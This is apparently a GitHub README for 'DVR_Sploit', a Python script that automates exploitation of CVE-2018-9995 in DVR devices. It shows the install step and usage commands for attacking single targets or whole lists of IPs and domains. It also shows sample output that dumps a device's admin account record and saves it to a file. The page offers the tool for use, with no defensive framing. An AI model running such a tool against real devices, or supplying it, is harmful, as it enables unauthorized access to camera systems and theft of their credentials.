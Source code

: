 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

![dvrsploit](https://github.com/X3RX3SSec/DVR_Sploit/assets/141476851/7668e9ee-2881-4619-8903-4350a88334c0)

Requirements: pip install -r requirements.txt

## USAGE

```bash


usage: dvrsploit.py [-h] [-f filename.txt] [-t site.com] [-p 8080]

options:
  -h, --help            show this help message and exit
  -f filename.txt, --file filename.txt
                        domains to check
  -t site.com, --target site.com
                        domain to check
  -p 80, --port 80  port number to use

# Single Target

python3 dvrsploit.py -t IP -p 80

# A list of domains

python3 dvrsploit.py -f ips.txt -p 80

```

Device list:

{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt

